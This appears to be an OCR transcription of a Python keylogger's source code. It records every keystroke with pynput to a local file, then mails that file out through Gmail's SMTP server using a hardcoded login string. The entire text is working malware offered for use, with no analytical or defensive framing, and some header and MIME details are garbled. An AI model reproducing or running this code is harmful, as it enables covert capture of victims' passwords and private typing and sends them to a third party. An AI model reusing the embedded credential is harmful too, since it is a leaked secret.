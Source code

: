 # Keylogger written in python

from pynput import keyboard

import logging, atexit, smtplib, time

from email.mime.text import MIMEText

from email.mime.multipart import MIMEMultipart

from email.mime.application import MIMEApplication

logging.basicConfig(filename=("p4.txt"), level=logging.INFO)

def on_press(key):
    logging.info(key)

keyboard_listener = keyboard.Listener(on_press=on_press)
keyboard_listener.start()


fromaddr = "sender email" #email that sends the file

toaddr = "recpient" #email that receives the file

msg = MIMEMultipart()

msg['From'] = fromaddr

msg['To'] = toaddr

msg['Subject'] = "Test Mail"

body = "testing"

msg.attach(MIMEText(body, 'plain'))

attach_file_name = 'p4.txt'

attach_file = open(attach_file_name, 'rb')

payload = MIMEMultipart('application', 'octate-stream')

payload.set_payload((attach_file).read())

payload.add_header('Content-Decomposition', 'attachment', filename=attach_file_name)

msg.attach(payload)

server = smtplib.SMTP('smtp.gmail.com', 587)

server.connect("smtp.gmail.com",587)

server.ehlo()

server.starttls()

server.ehlo()

server.login(fromaddr, "nwjuxouwxcgnklee")

text = msg.as_string()

server.sendmail(fromaddr, toaddr, text)

server.quit()

keyboard_listener.join()
